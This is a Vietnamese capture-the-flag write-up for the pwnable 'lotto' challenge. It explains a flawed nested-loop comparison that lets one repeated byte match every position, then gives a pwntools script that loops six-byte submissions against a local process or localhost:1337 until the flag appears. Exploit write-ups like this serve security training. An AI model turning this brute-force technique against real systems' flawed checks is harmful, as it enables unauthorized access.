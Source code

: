 # lotto
## Phân tích

- Một lỗi logic, khi tạo một chuỗi random 5 kí tự nhưng chỉ cần ta brute 1 byte 5 lần là có thể có flag

```c
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

## Khai thác

```python
from pwn import *

exe = ELF('lotto', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                raw_input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('localhost', 1337)
else:
        p = process(exe.path)

# GDB()
while True:
        sla("Exit\n", str(1))
        sa("bytes : ", "\x0a\x0a\x0a\x0a\x0a\x0a")
        p.recvuntil("luck...")

p.interactive()

```